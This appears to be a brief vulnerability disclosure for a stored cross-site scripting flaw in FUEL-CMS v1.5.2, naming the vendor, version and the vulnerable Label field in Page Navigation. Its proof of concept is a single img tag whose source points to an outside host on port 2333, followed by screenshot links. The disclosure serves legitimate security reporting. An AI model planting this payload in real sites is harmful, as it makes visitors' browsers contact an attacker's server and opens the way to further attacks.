 # Stored XSS vulnerability in FUEL-CMS v1.5.2 of the param Label in Page Navigation

**vender**:

- [daylightstudio/FUEL-CMS: A CodeIgniter Content Management System](https://github.com/daylightstudio/FUEL-CMS)

**SoftLink**:

- [Release 1.5.2 · daylightstudio/FUEL-CMS](https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.5.2)

**Vulnerable Param**

- Label in Navigation

**Version**

- v 1.5.2

### POC 

```
<img src="http://vps:2333" alt="dune">
```

![image-20250818214132204](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182141343.png)



![image-20250818213912045](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182139154.png)



![image-20250818213742869](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182137189.png)